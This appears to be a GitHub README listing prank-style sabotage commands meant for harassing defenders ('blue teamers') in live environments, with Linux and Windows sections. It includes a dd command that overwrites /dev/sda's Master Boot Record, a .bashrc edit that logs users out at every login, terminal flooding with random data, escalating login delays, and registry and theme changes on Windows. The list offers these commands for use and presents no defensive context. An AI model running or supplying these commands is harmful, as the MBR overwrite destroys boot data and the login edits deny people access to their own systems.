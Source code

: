A small collection of tactics to mess with blue teamers in live environments...

# Linux

```shell
xrandr -o inverted # Flip X11 desktop session upside down.

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Recrd with Nyancat animation. The MBR image can be found in this repository: https://github.com/brainsmoke/nyanmbr

echo exit >> ~/.bashrc # Add a logout to the login script

cat /dev/urandom > /dev/pts/<pts number> # Fill terminal with random noise spewing out at high speed.

echo "echo "sleep 1;" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 
```

# Windows
```powershell
start C:\Windows\Resources\Ease of Access Themes\hc1.theme # Start the Windows high-contrast theme

reg add "HKCU\Control Panel\Mouse" /v "MouseSpeed" /t REG_SZ /d "VALUE" /f # Modify mouse speed
```